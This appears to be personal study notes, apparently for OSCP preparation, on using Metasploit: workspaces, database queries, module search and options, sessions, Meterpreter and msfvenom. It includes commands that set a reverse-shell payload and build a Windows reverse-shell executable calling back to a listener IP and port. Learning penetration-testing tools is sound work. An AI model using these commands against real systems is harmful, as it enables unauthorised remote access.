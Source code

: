 ```yaml
---
title: Metasploit
---
```

# Workspaces
- We can create workspaces within Metasploit to better structure our findings (i.e one workspace per assessment)
- We can create a new workspace by providing the `-a` parameter to the `workspace` command. Running `workspace` without a parameter will list all available workspaces
```zsh
msf6 > workspace
* default
msf6 > workspace -a oscp
[*] Added workspace: oscp
[*] Workspace: oscp
```
- We can switch between workspaces using `workspace <name>`

# DB Backend Commands
- Metasploit will provide us with some commands to directly query the database. 
- The most important ones:
	- `hosts` - This will list all discovered hosts 
	- `services` - This will list discovered services (i.e from port scans)
	- `services -p 8000` - This will only list hosts with port 8000 open
	- `vulns` - Will list found vulnerabilities
	- `creds` - Will list found credentials

# Modules
- Metasploit provides modules in order to perform tasks. Those modules are divided into categories such as _encoders_, _payloads_, _exploits_, _evasion_ or _auxiliary_. 
- To search for a modules we can run `search` (i.e `search type:auxiliary smb` or `search Apache 2.4.49`)
- To activate a module we can run the `use`command followed by the module id (i.e `use 56`)
- After we have activated a module, we can run `info` to get information about the current module
- We can run `show options` to list the options of the current module
- To set options, we can use the `set` command followed by the option name (i.e `set RHOSTS 192.168.10.10`). We can use `unset` to remove the values. We can also set specific payloads if needed using `set payload payload/linux/x64/shell_reverse_tcp`
- After configuring the modules options, we can use `run` to launch the module. If the modules supports check, we can use `check` to perform a dry-run of the exploit to figure out if the target is vulnerable before actually exploiting

# Sessions
- After successful exploitation and obtaining an interactive shell, metasploit will generate session for us. 
- We can background the currently active session using Ctrl+Z. If we wish to send a session directly to the background, we need to run the exploit with `run -j`
- To list all active session ,we can use the `session -l` command
- To interact with with an active session, we can use the `session -i <sessionnumber>` command
- To kill a session, we can use the `session -k <sessionnumber>` command

# Payloads
- We can run `show payloads` in the context of an exploit module to list all compatible payloads
- We can then simply run `set payload <payloadnumber>` to select one of the compatible payloads

## Meterpreter
- Meterpreter provides us with a multitude of options such as `sysinfo`, `getuid`, `upload` or `download` we can run `help` in an active meterpreter session to list them
- If we run `shell` in a meterpreter session to run get an interactive shell to run commands, meterpreter will open a new channel
- We can list active channels using `channel -l` and then interact with a channel using `channel -i <channelnumber>`
- Use `lcd` and `lpwd` to navigate the local filesystem from within a meterpreter session and set the current working directory (i.e to navigate to a specific download directory)

# Msfvenom
- We can list available payload using `msfvenom -l` (i.e `msfvenom -l payloads --platform windows --arch x64`)
- We can then create a payload and save it in the appropriate format
```zsh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.244 LPORT=9001 -f exe -o reverse_nonstaged.exe
```
> [!WARNING]
> If we use a staged payload, we need to use metasploits module `multi/handler` as `nc` does not know how to handle a staged payload. In the `multi/handler` module we need to set the corresponding payload using `set payload`

